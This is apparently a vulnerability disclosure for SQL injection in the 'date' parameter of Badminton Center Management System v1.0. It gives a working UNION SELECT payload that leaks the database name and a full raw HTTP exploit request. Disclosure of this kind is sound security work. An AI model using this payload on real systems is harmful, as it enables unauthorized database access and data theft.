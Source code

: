 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/admin/?page=reports/daily_services_report&date=

Vulnerability location: /bcms/admin/?page=reports/daily_services_report&date=, date

[+] Payload: /bcms/admin/?page=reports/daily_services_report&date=2022-05-27%27%20union%20select%201,2,3,4,database(),6,7--+ // Leak place ---> date


```sql
GET /bcms/admin/?page=reports/daily_services_report&date=2022-05-27%27%20union%20select%201,2,3,4,database(),6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170614240-2b7f293f-3de1-4996-8b06-f0d1b00ec52c.png)

![image](https://user-images.githubusercontent.com/54017627/170614278-329410bd-e78c-4c1d-8743-9a5ec7ca6672.png)
